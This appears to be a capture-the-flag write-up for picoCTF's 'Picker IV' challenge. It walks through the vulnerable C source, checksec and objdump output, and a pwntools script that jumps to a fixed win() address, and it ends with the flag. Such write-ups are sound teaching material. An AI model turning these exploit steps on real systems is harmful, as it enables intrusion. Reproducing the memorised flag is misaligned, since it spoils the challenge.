

# Pickle IV



## Source File Analysis

Scanning the source file, we already know we need to reach to the `win()` function

```bash
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Because the main function will receive an input and then jump to that address, we can inject the address of the `win()` function

## Protection Analysis

First checking the file protection, we can see that No PIE, that means the address will keep staying at `0x40129e`

```bash
└─$ checksec --file=picker-IV
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

└─$ objdump -D picker-IV|grep win
000000000040129e <win>:
  4012d2:       75 16                   jne    4012ea <win+0x4c>
  4012f9:       eb 1a                   jmp    401315 <win+0x77>
  401319:       75 e0                   jne    4012fb <win+0x5d>

```

With that being said, we can try to input `40129e`  locally, and we can see the ‘You won!’ message, indicating we have already reaching the `win()` function 

```php
└─$ ./picker-IV 
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
Cannot open file.

```

## Exploitation

To complete the challenge, I wrote a Python script to submit the win address after the message

```bash
from pwn import *

def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([exe]+argv, gdbscript=gdbdcript, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([exe]+argv, *a, **kwargs)

exe='./picker-IV'
elf=context.binary=ELF(exe)
context.log_level='debug'

win=b'40129e'

io=start()

io.sendlineafter(b"Enter the address in hex to jump to, excluding '0x': ", win)

io.interactive()
```

Running the program remotely, and we can get flag

```bash
└─$ python exploit.py REMOTE <Host> <Port>                                                                                                                                                                                     
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[DEBUG] Received 0x35 bytes:
    b"Enter the address in hex to jump to, excluding '0x': "
[DEBUG] Sent 0x7 bytes:
    b'40129e\n'
[*] Switching to interactive mode
[DEBUG] Received 0x1c bytes:
    b'You input 0x40129e\n'
    b'You won!\n'
You input 0x40129e
You won!
[DEBUG] Received 0x38 bytes:
    b'picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}\n'
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}
```

Flag: `picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}`
